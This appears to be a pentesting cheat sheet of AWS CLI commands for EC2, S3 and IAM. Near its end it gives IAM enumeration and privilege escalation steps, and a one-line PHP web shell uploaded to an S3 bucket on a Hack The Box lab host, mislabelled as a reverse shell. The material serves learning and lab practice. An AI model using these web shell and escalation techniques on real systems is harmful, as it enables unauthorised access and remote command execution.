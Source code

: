 - [Profile Configuration](#pc)
- [EC2](#ec2)
- [S3](#s3)
- [IAM](#iam)
- [prowler](#p)
- [aws reverse shell](#awsrs)

# Profile configuration <a name="pc"></a>
```bash
aws configure --profile <profile_name>
```
It will be necessary to introduce the **AWS ACCESS KEY ID** and the **AWS SECRET ACCESS KEY** of your account. Also, you need to specify the region name and the output format.

## Actual profile information
```bash
aws sts get-caller-identity --profile <profile_name>
```
# EC2 <a name="ec2"></a>

## Commands
- Create key pair:
```bash
aws ec2 create-key-pair --key-name <key_pair_name> --query 'KeyMaterial' --output text > <key_pair_name>
```
- Create and run instance: 
```bash
aws ec2 run-instances --image-id <image-id> --count 1 --instance-type t2.micro --key-name <key_name>
```
- List created instances:
```bash
aws ec2 describe-instances
```
- Terminate instance:
```bash
aws ec2 terminate-instances --instance-ids <instance_id>
```
- Delete key pair:
```bash
aws ec2 delete-key-pair --key-name <key_pair_name>
```

# S3 <a name="s3"></a>

## Commands
- Create a bucket:
```bash
aws s3 mb s3://<bucket_name>
```
The bucket name needs to be unique.

- List buckets:
```bash
aws s3 ls
```
- List an specific bucket:
```bash
aws s3 ls s3://<bucket_name>
```
- List an specific bucket without session credentials:
```bash
aws s3 ls s3://<bucket_name> --no-sign-request
```
- Copy a local file to the bucket:
```bash
aws s3 cp <file_name> s3://<bucket_name>
```
- Copy a bucket file to the actual localhost directory:

```bash
aws s3 cp  3://<bucket_name>/<file_name> ./
```
- Delete file from a bucket
```bash
aws s3 rm s3://<bucket_name>/<file_name>
```
- Sync bucket data with a local directory:
```bash
aws s3 sync s3://<bucket_name> <local_directory>
```
- Eliminate all the contents of the bucket:
```bash
aws s3 rm s3://<bucket_name> --recursive
```
- Eliminate bucket:
```bash
aws s3 rb s3://<bucket_name> --recursive
```

# IAM <a name="iam"></a>

## Commands
- Create an IAM group:
```bash
aws iam create-group --group-name <group_name>
```
- Create IAM user:
```bash
aws iam create-user --user-name <username>
```
- Add user to a group:
```bash
aws iam add-user-to-group --user-name <username> --group-name <group_name>
```
- List group users:
```bash
aws iam get-group --group-name <group_name>
```
- Assign permissions to a user using policies:
```bash
aws iam attach-user-policy --user-name <username> --policy-arn arn:aws:iam::aws:policy/Amazons3FullAccess
```
- Create access key for a user:
```bash
aws iam create-access-key --user-name <username>
```
- Get permissions for an account:
```bash
aws iam get-account-authorization-details --profile <profile_name>
```
- List all users:
```bash
aws iam list-users
```
- List IAM policies for a user:
```bash
aws iam list-attached-user-policies --user-name <username>
```
- Get information about a specific policy:
```bash
aws iam get-policy --policy-arn <policy_arn>
```
- List policies versions:
```bash
aws iam list-policy-versions --policy-arn <policy_arn> --profile <profile_name>
```
- Get more information about a specific policy:
	You can see the value tor the `DefaultVeriosnId` field using the previous command
```bash
aws iam get-policy --policy-arn <policy_arn> --version-id <DefaultVeriosnId>
```
- Set default policy version:
	 If you find that there exists an IAM policy with a version that allows you to perform more actions you can set that policy as default to escalate privileges.
	```bash
aws iam set-default-policy-version --policy-arn <policy_arn> --version-id <version> --profile <profile_name> 
	```
- List all IAM roles:
```bash
aws iam list-roles
```
- Get information about a specific role:
```bash
aws iam list-attached-role-policies --role-name <role_name>
```


## Permissions enumeration - enumerate-iam.py
This script will enumerate all the services that can be used for this user. This script can be easily detected as it does a lot of querys in few time.
```bash
python3 enumerate-iam.py --access-key <access_key> --secret-key <secret_key>
```

# Privilege escalation
## Using IAM 
Example: https://github.com/R-kill-9/AWSGoat/blob/master/attack-manuals/module-2/04-IAM%20Privilege%20Escalation.md

A possible privIlege escalation could be done following this steps
- List all users (IAM)
- List IAM policies for a user (IAM)
- Get information about a specific policy (IAM)
- Get more information about a specific policy (IAM)
- List all IAM roles (IAM)
- Get information about a specific role (IAM)

# prowler <a name="p"></a>

**Prowler** is an Open Source security tool to perform AWS, GCP and Azure security best practices assessments, audits, incident response, continuous monitoring, hardening and forensics readiness.

It contains hundreds of controls covering CIS, NIST 800, NIST CSF, CISA, RBI, FedRAMP, PCI-DSS, GDPR, HIPAA, FFIEC, SOC2, GXP, AWS Well-Architected Framework Security Pillar, AWS Foundational Technical Review (FTR), ENS (Spanish National Security Scheme) and your custom security frameworks.

- Use a custom AWS profile with `-p`/`--profile` and/or AWS regions which you want to audit with `-f`/`--filter-region`:

```bash
prowler aws --profile custom-profile -f us-east-1 eu-south-2
```

# aws reverse shell <a name="awsrs"></a>

The `aws reverse shell` command is used to copy files from your local machine to one of the AWS buckets. After copying the file, you can access it and enter commands.

- `endpoint`: URL where S3 is located (replace with `s3` or another subdomain if found).
- `s3`: Interacts with the S3 service (replace with the discovered subdomain from gobuster subdomain search).
- `cp`: Copies the specified file, in this case, `shell.php`, to the bucket.
- `shell.php`: The file to be copied, containing `<?php system($_GET["cmd"]); ?>` code.
- `s3://{bucket name}`: Name of the bucket to interact with.

````bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
````